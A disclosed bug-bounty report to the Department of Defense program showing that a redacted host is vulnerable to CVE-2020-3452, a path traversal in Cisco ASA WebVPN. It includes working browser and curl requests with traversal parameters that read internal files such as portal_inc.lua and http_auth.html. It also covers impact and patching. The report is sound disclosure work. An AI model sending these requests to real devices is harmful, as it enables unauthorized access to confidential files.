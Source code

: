 # ███ is vulnerable to CVE-2020-3452 Read-Only Path Traversal Vulnerability

## Report Details
- **Report ID**: 959187
- **URL**: https://hackerone.com/reports/959187
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-08-15T02:08:55.295Z
- **Disclosed**: 2020-09-03T17:24:29.382Z

## Reporter
- **Username**: secret_letters
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Summary:**
████████ is vulnerable to Read-Only Path Traversal Vulnerability as described at https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-asaftd-ro-path-KJuQhB86

**Description:**
Get request parameters at the /+CSCOT+/translation-table and the /+CSCOT+/oem-customization are not properly sanitized which allows for reading files within the webroot directory that are not intended to be readable.

According to Cisco:
The vulnerability is due to a lack of proper input validation of URLs in HTTP requests processed by an affected device. An attacker could exploit this vulnerability by sending a crafted HTTP request containing directory traversal character sequences to an affected device.

## Step-by-step Reproduction Instructions
## In Browser:
1. Copy and paste into your browser: ███/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../"
2. Note the file being requested to be download. This will be the source code for portal_inc.lua which is not normally accessible. 

##In curl:
1. curl -k "████████/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../" to prove you can read internal files such as the /+CSCOE+/portal_inc.lua file.
2. Various internal files can be read, and some require using the --output command to output the data to a file as shown in step 3.
3. curl -k "█████████/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/http_auth.html&default-language&lang=../" --output session.js

## Product, Version, and Configuration (If applicable)
AnyConnect SSL VPN -webvpn
Clientless SSL VPN - webvpn

## Suggested Mitigation/Remediation Actions
Update the software to the latest version via the Cisco advisory linked above in the Summary.

## Impact

An attacker can view arbitrary files within the web services file system on the targeted device that are meant to be internal or confidential. The web services file system is enabled when the affected device is configured with either WebVPN or AnyConnect features. 
CVSS Score: Base 7.5
Vector: https://tools.cisco.com/security/center/cvssCalculator.x?version=3.1&vector=CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N

## Attachments
No attachments
